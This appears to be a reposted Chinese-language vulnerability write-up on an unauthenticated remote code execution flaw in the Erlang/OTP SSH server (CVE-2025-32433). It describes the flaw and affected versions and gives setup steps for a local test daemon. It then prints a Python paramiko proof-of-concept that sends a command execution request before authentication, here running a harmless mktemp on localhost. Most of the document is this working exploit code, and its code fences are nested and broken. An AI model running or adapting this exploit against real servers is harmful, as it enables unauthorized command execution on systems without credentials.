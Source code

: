 # Erlang-OTP中的SSH服务器存在RCE漏洞

# 一、漏洞简介
Erlang/OTP SSH 服务器中发现了一个严重漏洞，可能允许攻击者执行未经身份验证的远程代码执行 (RCE)。通过利用 SSH 协议消息处理中的缺陷，恶意行为者可以未经授权访问受影响的系统，并在没有有效凭证的情况下执行任意命令。

# 二、影响版本
所有运行 Erlang/OTP SSH 服务器的用户都会受到此漏洞的影响，无论底层 Erlang/OTP 版本如何。如果您的应用程序使用 Erlang/OTP SSH 库提供 SSH 访问，则假设您已受到影响。

# 三、python脚本
```python
# Example server commands, copied from https://blog.differentpla.net/blog/2022/11/01/erlang-ssh/.
```sh
mkdir /tmp/erlang-ssh-server/
ssh-keygen -q -N "" -t rsa -f /tmp/erlang-ssh-server/ssh_host_rsa_key
erl
```

```erl
{ok, _} = application:ensure_all_started(ssh).
Port = 2222.
ssh:daemon(Port, [{system_dir, "/tmp/erlang-ssh-server/"}]).
```

# Uncomment checks in paramiko channel.py#L67, transport.py#L1087-1088, transport.py#L1119-1129

import socket
import multiprocessing
import paramiko

server_address = ("localhost", 2222)
client = paramiko.SSHClient()

try:
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client_socket.connect(server_address)
except socket.error as e:
    print(f"Error connecting to {server_address}: {e}")
    exit(1)

# Exploit inspired by comment on https://news.ycombinator.com/item?id=43718329

try:
    transport = paramiko.Transport(client_socket)
    transport.start_client()
except Exception as e:
    print(f"An unexpected error occurred during SSH client startup: {e}")
    transport.close()
    exit(1)

channel = transport.open_session()
channel.exec_command('os:cmd("mktemp -t CVE-2025-32433-XXXXX").')
# Hangs if successful. If you get the unimplemented error message, it was unsuccesful.
```

> 原文: <https://github.com/darses/CVE-2025-32433>
